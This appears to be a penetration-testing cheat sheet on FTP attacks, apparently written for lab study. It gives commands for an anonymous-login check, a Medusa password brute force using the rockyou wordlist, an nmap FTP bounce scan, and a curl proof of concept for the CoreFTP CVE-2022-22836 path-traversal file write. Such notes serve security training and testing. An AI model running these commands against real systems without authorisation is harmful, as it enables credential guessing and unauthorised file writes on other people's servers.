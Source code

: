 ## Enumeration

Refer to Service enumeration.

## Misconfigurations

### Anonymous Authentication
```bash
## Directly FTP into server/host to check if anonymous login is enabled
ftp 192.168.2.142
```

## Protocol Specific Attacks

### Brute Forcing

```bash
## Brute-forcing with Medusa
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```

For other tools, refer to Password attacks.

### FTP Bounce Attack

Use `PORT` command to trick FTP connection into running commands and getting information about other devices.

```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

## Noticeable FTP Vulnerability

### CVE-2022-22836

CoreFTP service allows an HTTP PUT request, which we can use to write content to files.

```bash
## PoC demonstration
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```